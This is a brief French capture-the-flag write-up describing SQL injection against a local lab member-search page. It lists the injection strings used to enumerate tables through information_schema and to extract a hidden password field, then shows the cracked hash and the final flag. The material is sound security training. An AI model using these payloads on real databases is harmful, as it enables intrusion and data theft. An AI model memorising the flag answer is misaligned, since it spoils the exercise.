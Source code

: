 sur http://192.168.99.102/?page=member

On peu voir un field pour rechercher par Id.

Si on entre 1 OR 1 = 1:
First name: Flag
Surname : GetThe

On peux voir qu'un first name est "Flag"

Avec la requete suivante: 1 AND MID(VERSION(),1,1) = 5;
On obtiens la version de mysql... pas utile 


Avec la requete suivante: 1 UNION SELECT * FROM Users
on obtiens une erreur: Table 'Member_Sql_Injection.Users' doesn't exist
on en deduis le nom de la db: Member_Sql_Injection



1 UNION SELECT * FROM Users
1 AND 1=2 UNION ALL SELECT * FROM information_schema.columns

Nous avons une erreur:
The used SELECT statements have a different number of columns

parce que "select * from ..." est la sélection de toutes les colonnes du tableau des users.
c'est pourquoi lorsque nous avons essayé d'unir plus de 2 colonnes avec elle, nous avons cette erreur.

En essayant de select que deux colonnes avec cette commande:
1 AND 1=2 UNION ALL SELECT table_name, column_name FROM information_schema.columns

Nous affiche toutes les tables et colonnes
On peux voir la table qui nous interesse ici c'est: Users
qui contient les colonnes suivantes:
user_id
first_name
last_name
town
country
planet
Commentaire
countersign

testons alors les deux dernieres qui ont l'air suspectes.... :

1 AND 1 = 2 UNION ALL SELECT countersign, Commentaire FROM users

bingo !


Amelioration:

Gerer les sqli, protegers les strings envoyer en request.


First name: 5ff9d0165b4f92b14994e5c685cdce28
Surname : Decrypt this password -> then lower all the char. Sh256 on it and it's good !


5ff9d0165b4f92b14994e5c685cdce28: FortyTwo
=> lower + sh256 = 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
